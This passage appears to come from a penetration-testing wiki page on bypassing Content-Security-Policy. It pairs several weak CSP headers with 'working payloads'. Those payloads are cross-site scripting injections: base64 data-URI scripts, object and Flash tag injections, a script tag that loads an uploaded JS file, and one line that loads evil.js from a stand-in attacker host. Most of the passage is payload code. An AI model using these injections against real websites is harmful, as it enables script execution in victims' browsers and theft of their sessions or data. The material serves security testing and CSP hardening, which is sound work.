 > [!CAUTION]
> This is not working, for more info [**check this**](https://github.com/HackTricks-wiki/hacktricks/issues/653).

```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```

Working payload:

```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### strict-dynamic

If you can somehow make an **allowed JS code created a new script tag** in the DOM with your JS code, because an allowed script is creating it, the **new script tag will be allowed to be executed**.

### Wildcard (\*)

```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```

Working payload:

```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

### Lack of object-src and default-src

> [!CAUTION] > **It looks like this is not longer working**

```yaml
Content-Security-Policy: script-src 'self' ;
```

Working payloads:

```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```

### File Upload + 'self'

```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ;
```

If you can upload a JS file you can bypass this CSP:

Working payload:

```markup
"/>'><script src="/uploads/picture.png.js"></script>
```
